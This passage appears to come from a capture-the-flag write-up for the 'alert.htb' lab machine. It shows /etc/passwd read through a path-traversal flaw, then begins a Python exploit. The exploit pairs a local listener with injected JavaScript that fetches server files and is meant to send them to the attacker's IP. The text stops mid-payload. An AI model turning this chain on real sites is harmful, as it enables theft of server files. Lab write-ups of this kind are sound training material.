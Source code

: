 ```
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
</pre>
```

We now have access to `/etc/passwd`, confirming that this parameter is vulnerable to `Local File Inclusion (LFI)`.

To access files more conveniently, we can create a simple Python script.

```python
#!/usr/bin/env python3

import socket
import requests
import sys
import re
import urllib
import threading
import time

HOST = "alert.htb"
LOCAL_IP = "10.10.14.191"
LOCAL_PORT = 12345

def listenHTTP():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(("0.0.0.0", LOCAL_PORT))
    server.listen(3)

    while True:
        client, _ = server.accept()

        request = client.recv(10000).decode()

        firstLine = request.split("\n")[0]

        if "GET" in firstLine and "?" in firstLine:
            parts = firstLine.split(" ")
            url = parts[1]

            params = urllib.parse.parse_qs(urllib.parse.urlparse(url).query)

            if "res" in params:
                res = params["res"][0]
                decoded = urllib.parse.unquote(res)

                content = decoded[5:-8]

                print(content)

                client.close()

def uploadMd(file):
    script = f"""
<script>
(async () => {{
const res = await fetch('http://{HOST}/messages.php?file=../../../../../../../..{file}')
const text = await res.text()
```